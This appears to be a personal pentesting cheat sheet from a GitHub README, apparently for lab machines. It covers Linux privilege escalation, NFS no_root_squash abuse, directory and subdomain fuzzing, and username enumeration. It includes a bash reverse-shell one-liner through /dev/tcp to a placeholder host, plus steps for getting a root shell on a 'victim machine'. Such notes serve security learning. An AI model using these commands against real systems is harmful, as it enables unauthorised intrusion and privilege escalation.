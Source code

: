 # Useful commands

## Priviledge escalation Linux:
Exploit for every sudo app for the user: ```sudo -l``` <br>
Reverse shell command:  ```bash -i >& /dev/tcp/"ip"/"port" 0>&1```<br>
Find SUID bit: ```find / -type f -perm -04000 -ls 2>/dev/null```<br>
Find capabilities: ``getcap -r / 2>/dev/null`` <br>

### NFS
Find if there is NFS on : `cat /etc/exports`  (Need "no_root_squash" option on shared folder)
On another machine: 

    showmount -e "ip"
    mkdir /tmp/attackerbackup
    mount -o rw "ip":/"shared_folder" /tmp/attackerbackup
    Then add a new program that launch a shell and compile it, run it on the victim machine

## Content discovery web
Wordlist pour TOUT: https://github.com/danielmiessler/SecLists/tree/master
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

    ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.28.209/FUZZ

    dirb http://10.10.28.209/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

    gobuster dir --url http://10.10.28.209/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

## Subdomain discovery

DNS Bruteforce:

    dnsrecon -t brt -d <domain>
Automated tool: https://github.com/aboul3la/Sublist3r

    ./sublist3r.py -d <domain>
Virtual hosts: 

    ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://MACHINE_IP
## Username discovery
Fuzzing github: https://github.com/ffuf/ffuf

    ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.229.11/customers/signup -mr "username already exists" 
    
-w: wordlist, -X: request method, -d:data, -H: Extra headers, -u: URL, -mr: success text to find in the page if username already used 

## Authentication bypass
